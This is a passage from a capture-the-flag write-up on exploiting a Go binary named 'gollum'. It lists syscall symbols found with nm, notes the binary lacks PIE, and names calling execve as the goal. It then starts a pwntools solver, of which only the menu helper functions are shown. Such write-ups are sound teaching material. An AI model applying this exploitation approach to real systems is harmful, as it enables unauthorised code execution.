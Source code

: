 Let's search the available functions inside the binary:

```
> nm ./gollum | grep -i syscall
...
000000000047abe0 T syscall.RawSyscall
0000000000402680 T syscall.RawSyscall6
...
```

Since there is no PIE we already know the address of the target function. So we can simply call `execve()` syscall.

Example solver: 

```python
#!/usr/bin/env python3

import sys

import pwn


def register(io: pwn.tube, username: bytes, password: bytes, protection: bytes) -> None:
    io.sendlineafter(b'> ', b'REGISTER')

    io.sendlineafter(b': ', username)
    io.sendlineafter(b': ', password)
    io.sendlineafter(b': ', protection)

    return


def login(io: pwn.tube, username: bytes, password: bytes) -> None:
    io.sendlineafter(b'> ', b'LOGIN')

    io.sendlineafter(b': ', username)
    io.sendlineafter(b': ', password)

    return


def info(io: pwn.tube) -> bytes:
    io.sendlineafter(b'> ', b'INFO')

    return io.recvline()[4:]


def update(io: pwn.tube, description: bytes) -> None:
    io.sendlineafter(b'> ', b'UPDATE')

    io.sendlineafter(b': ', description)

    return


def logout(io: pwn.tube) -> None:
    io.sendlineafter(b'> ', b'LOGOUT')

    return


def exit(io: pwn.tube) -> None:
    io.sendlineafter(b'> ', b'EXIT')

    return
```